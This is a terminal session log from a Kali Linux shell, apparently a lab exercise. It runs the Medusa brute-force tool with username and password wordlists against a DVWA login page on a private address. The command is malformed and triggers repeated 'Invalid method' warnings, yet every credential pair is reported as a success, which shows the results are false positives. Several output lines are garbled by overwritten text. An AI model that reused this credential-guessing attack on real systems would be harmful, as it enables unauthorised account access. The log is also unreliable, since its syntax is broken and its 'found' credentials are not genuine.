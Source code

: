 Script started on 2025-10-29 12:27:07-04:00 [TERM="xterm-256color" TTY="/dev/pts/1" COLUMNS="166" LINES="34"]
                                                                                                                                                                     ┌──(root㉿kali)-[/home/kali]
└─#immedusa -h192.168.57.3 --U user.txt -P pass.txt -Mhttp --mPAGE:""/dvwa/login.php" -mPAGE: ''username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 1 complete) Password: qwerty (1 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: qwerty [SUCCESS]
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: 123456 (1 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: 123456 [SUCCESS]
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: msfadmin (2 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: msfadmin [SUCCESS]
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 4 complete) Password: password (3 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: password [SUCCESS]
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 5 complete) Password: qwerty (2 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: qwerty [SUCCESS]
oot (3 of 3, 6 complete) Password: 123456 (1 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: 123456 [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
oot (3 of 3, 7 complete) Password: msfadmin (2 of 4 complete)(1 of 1, 0 complete) User: admin
oot Password: msfadmin [SUCCESS]D: [http] Host: 192.168.57.3 User: admin
oot (3 of 3, 8 complete) Password: password (3 of 4 complete)(1 of 1, 0 complete) User: admin
oot Password: password [SUCCESS]D: [http] Host: 192.168.57.3 User: admin
oot (3 of 3, 9 complete) Password: qwerty (4 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: qwerty [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 10 complete) Password: 123456 (4 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: 123456 [SUCCESS]
2025-10-29 12:29:00 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 11 complete) Password: msfadmin (3 of 4 complete)
2025-10-29 12:29:00 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: msfadmin [SUCCESS]
                                                                                                                                                                      